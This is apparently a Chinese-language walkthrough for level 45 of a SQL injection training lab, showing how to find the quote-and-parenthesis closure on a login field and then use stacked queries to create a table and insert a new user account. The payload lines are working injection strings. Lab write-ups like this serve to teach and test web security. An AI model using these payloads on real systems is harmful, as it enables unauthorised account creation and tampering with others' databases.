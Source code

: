 ```yaml
---
title: Less - 45
date: 2023-03-22T12:33:38Z
lastmod: 2023-03-22T12:38:54Z
---
```


# Less - 45

---

# 通关教程

---

## 1、判断闭合

---

```http
admin# #登入失败
admin'# #登入失败
admin')# #登入成功
```

​![image](assets/image-20230322123524-ffws63q.png)​

判断闭合方式为')#，并且为字符型注入

---

## 2、创建一个表

---

```http
a');create table test like users;#
```

​![image](assets/image-20230322123645-6ccq0jz.png)​

​![image](assets/image-20230322123706-5y5eoy1.png)​

## 3、创建一个新的用户

---

```http
a');insert into users values(18,'cmx','cmx');#
```

​![image](assets/image-20230322123838-z2pln6n.png)​

​![image](assets/image-20230322123852-5c0s918.png)​

‍
